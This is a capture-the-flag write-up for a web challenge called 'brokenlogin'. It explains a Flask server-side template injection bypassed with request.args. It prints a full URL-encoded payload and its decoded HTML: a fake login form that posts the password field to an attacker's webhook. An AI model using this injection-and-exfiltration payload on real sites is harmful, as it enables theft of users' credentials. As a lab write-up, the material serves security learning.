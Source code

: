 brokenlogin - web
===

This challenge involves vulnerabilities in SSTI (Server-Side Template Injection) and XSS (Cross-Site Scripting). In order to solve this challenge, we need to exploit both of these vulnerabilities to deceive the bot and receive the flag at our designated webhook.

During the challenge, we can observe that the bot has the flag which we require to solve it. The bot has inputted the flag in the password input selector, which can be seen in the image provided below:

![](https://i.imgur.com/m6OK9mk.png)

In the app.py file, we can observe that the format string `%s` is being used, as depicted in the image below:

![](https://i.imgur.com/yWrLhQK.png)

Subsequently, the resulting value is passed to the render_template_string() function. It is this function that we can target with our SSTI payload on the server, as shown in the image below:

![](https://i.imgur.com/ggno8cj.png)

To exploit this challenge, we will use the `{{request.args.a|safe}}` payload to obtain the `a` query argument that we input as a URL argument. We use this method because the `message` argument has a 25-character limit, and we need to bypass it using `request.args`. We use the `safe` filter to convert our payload into HTML and prevent it from being sanitized by the Flask template as an HTML entity.

The final payload will appear as follows after URL encoding:

```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cform%20action=%22https://webhook.url%22%20method=%22POST%22%3E%0A%20%20%20%20%3Clabel%20for=%22username%22%3EUsername:%20%3C/label%3E%0A%20%20%20%20%3Cinput%20id=%22username%22%20type=%22text%22%20name=%22username%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%0A%0A%20%20%20%20%3Clabel%20for=%22password%22%3EPassword:%20%3C/label%3E%0A%20%20%20%20%3Cinput%20id=%22password%22%20type=%22password%22%20name=%22password%22%20/%3E%3Cbr%20/%3E%3Cbr%20/%3E%0A%0A%20%20%20%20%3Cinput%20type=%22submit%22%20/%3E%0A%3C/form%3E
```

Before URL encoding, the original HTML payload will appear as:

```html
<form action="https://webhook.url" method="POST">
    <label for="username">Username: </label>
    <input id="username" type="text" name="username" /><br /><br />

    <label for="password">Password: </label>
    <input id="password" type="password" name="password" /><br /><br />

    <input type="submit" />
</form>
```

Please replace `webhook.url` with your actual webhook. This payload aims to deceive the bot by inputting the flag into a fake password input field that will contain our flag. After the bot submits it, it will submit the password (our flag) to our webhook server. We can then view our flag in the webhook server, as shown in the image below:
